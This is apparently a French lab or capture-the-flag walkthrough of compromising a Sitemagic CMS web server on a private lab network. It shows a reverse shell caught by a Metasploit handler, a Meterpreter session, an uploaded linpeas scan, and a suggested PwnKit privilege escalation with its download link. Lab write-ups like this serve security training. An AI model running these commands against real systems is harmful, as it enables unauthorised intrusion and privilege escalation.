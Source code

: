 &nbsp;

Upload du reverse-shell

![Capture du 2025-01-17 22-14-22](https://github.com/user-attachments/assets/4f9bdaae-c0e3-4f72-8a98-857b02dfc03f)

Exécution du reverse-shell

![Capture du 2025-01-17 22-15-32](https://github.com/user-attachments/assets/b7a19878-2a24-43f2-a5d2-ddcde3bf6418)

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit**

Ecoute sur le port `4444` du reverse-shell

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 192.168.56.104
lhost => 192.168.56.104
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set verbose true
verbose => true
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (40004 bytes) to 192.168.56.53
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.53:59746) at 2025-01-17 22:12:13 +0100

(Meterpreter 1)(/var/www/html/sitemagic/files/images) > 
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Upload du script bash

```
(Meterpreter 1)(/var/www/html/sitemagic/files/images) > upload /usr/share/peass/linpeas/linpeas.sh
[*] Uploading  : /usr/share/peass/linpeas/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 828.43 KiB (0.0%): /usr/share/peass/linpeas/linpeas.sh -> linpeas.sh
[*] Completed  : /usr/share/peass/linpeas/linpeas.sh -> linpeas.sh
```

&nbsp;

Exécution de linpeas a la recherche d’élévation de privilège

```
Meterpreter 1)(/var/www/html/sitemagic/files/images) > shell
Process 1272 created.
Channel 1 created.
bash -i
bash: cannot set terminal process group (1097): Inappropriate ioctl for device
bash: no job control in this shell
www-data@kb-server:/var/www/html/sitemagic/files/images$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

```